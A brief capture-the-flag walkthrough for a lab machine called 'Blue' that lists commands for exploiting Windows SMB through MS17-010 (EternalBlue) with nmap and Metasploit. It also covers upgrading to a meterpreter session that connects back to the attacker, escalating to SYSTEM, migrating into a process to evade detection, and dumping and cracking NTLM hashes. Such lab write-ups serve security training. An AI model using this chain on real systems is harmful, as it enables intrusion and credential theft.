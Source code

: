 # Blue

### **Tasks**:

1. **Recon**:
   1. Do nmap version scan along with vuln script to find vulnerability
      1. `nmap -sV --script vuln ip`
      2. Vulnerable to CVE-2017-0143 or ms17-010 found.\[Eternal Blue] from nmap results - Answer all questions based on this output.
2. **Gain Access**:
   1. Start metasploit console , search ms17-010, use exploit/windows/smb/ms17\_010\_eternalblue, set RHOSTS to victim ip and run.
   2. Background session by pressing ctrl+z
3. **Escalate**:
   1. Convert shell to meterpreter: use post/multi/manage/shell\_to\_meterpreter , SET LHOST to attacker ip and SESSION (backgrounded session id , use sessions -l to list sessions).
   2. Execute **run** to get meterpreter session and run `sessions -i MeterpreterSessionId` to switch to meterpreter session. Run `getsystem` to verify we got system access and are NT AUTHORITY\SYSTEM indeed.
   3. Use `ps` to list all process, migrate to any process running as system using `migrate pid` , we are injecting our meterpreter in running process to get stable and make our shell less detective.
4. **Cracking**:
   1. type `hashdump` in meterpreter session and obtain NTLM credential hash dump.
   2. Use [crackstation](https://crackstation.net), john or hashcat to get password of Jon.
5. **Find flags!**:
   1. run `search -f flag*` in meterpreter session, you will find location of flags.
   2. Do `cat location_of_flag` for all 3 flag locations and submit the flags !!! .
